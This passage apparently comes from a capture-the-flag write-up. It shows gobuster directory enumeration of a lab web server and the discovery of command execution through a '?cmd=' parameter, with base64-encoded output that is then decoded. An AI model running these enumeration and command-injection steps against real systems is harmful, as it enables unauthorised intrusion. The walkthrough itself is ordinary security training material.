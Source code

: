   ```
  gobuster dir -u http://10.10.50.138/ -w /usr/share/wordlists/dirb/common.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /.htaccess            (Status: 403) [Size: 277]
  /assets               (Status: 301) [Size: 313] [--> http://10.10.50.138/assets/]
  /index.html           (Status: 200) [Size: 1988]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  
  gobuster dir -u http://10.10.50.138/assets/ -w /usr/share/wordlists/dirb/common.txt
  
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.hta                 (Status: 403) [Size: 277]
  /.htaccess            (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /images               (Status: 301) [Size: 320] [--> http://10.10.50.138/assets/images/]
  /index.php            (Status: 200) [Size: 0]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When you visit `/images`, page will be blank. So I was like, what if I do `?cmd=ls` and guess what?

  ```
  http://10.10.50.138/assets/?cmd=ls
  aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==

  echo 'aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==' | base64 -d                
  images
  index.php
  styles.css
  
  http://10.10.50.138/assets/?cmd=ls%20images
  b25lZm9yYWxsLmpwZwp5dWVpLmpwZwo=
  
  echo 'b25lZm9yYWxsLmpwZwp5dWVpLmpwZwo=' | base64 -d        
  oneforall.jpg
  yuei.jpg
  ```
  